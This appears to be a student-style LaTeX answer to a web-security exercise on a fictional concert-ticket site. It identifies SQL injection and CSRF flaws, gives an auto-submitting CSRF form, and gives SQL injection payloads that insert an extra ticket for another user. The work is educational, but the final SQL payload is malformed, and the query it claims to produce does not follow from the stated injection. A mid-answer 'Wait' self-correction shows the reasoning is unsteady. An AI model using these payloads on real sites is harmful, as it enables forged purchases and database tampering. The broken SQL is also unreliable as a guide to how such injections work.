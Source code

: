 \documentclass{article}
\begin{document}
\begin{itemize}
    \item[\textbf{1.}] Vulnerability Identification:
    \item SQL Injection: Present on line 21 during the \texttt{INSERT INTO tickets} query. User input (seat and concert\_id) is concatenated directly into the query string. Fix: Use prepared statements.
    \item XSS: Not explicitly present in this specific Python snippet, but typically occurs if inputs like 'band' or 'seat' are reflected without sanitization.
    \item CSRF: The \texttt{buy} function relies solely on session cookies and lacks an anti-CSRF token. Fix: Implement randomized CSRF tokens for state-changing requests.

    \item[\textbf{2.}] CSRF Exploit:
    \item The attacker hosts a malicious HTML page containing an auto-submitting form:
\end{itemize}
`<form action="http://stagepass.com/buy" method="POST">
<input type="hidden" name="concert\_id" value="ATTACKER\_CONCERT">
<input type="hidden" name="seat" value="A1">
</form>
<script>document.forms[0].submit();</script>`
\begin{itemize}
    \item When the victim visits this page, a POST request is forged using their active session, buying a ticket for the attacker's chosen band.

    \item[\textbf{3.}] SQLi Exploit (Two for One):
    \item Goal: Purchase one ticket for yourself and one for user 'Law' for the price of one.
    \item Vulnerable query: \texttt{INSERT INTO tickets VALUES (user\_id, 'seat', concert\_id);}
    \item Payload for \texttt{seat}: \texttt{A1', 1); INSERT INTO tickets VALUES (Law\_ID, 'A2}
    \item Wait, the problem states the DBMS does NOT support stacked queries. So we must use a subquery or multi-row insert.
    \item Payload for \texttt{concert\_id}: \texttt{1), (SELECT user\_id FROM users WHERE username='Law', 'A2', 1)}
    \item The resulting query becomes: \texttt{INSERT INTO tickets VALUES (my\_id, 'seat', 1), (SELECT user\_id FROM users WHERE username='Law', 'A2', 1);} which inserts multiple rows.
\end{itemize}
\end{document}
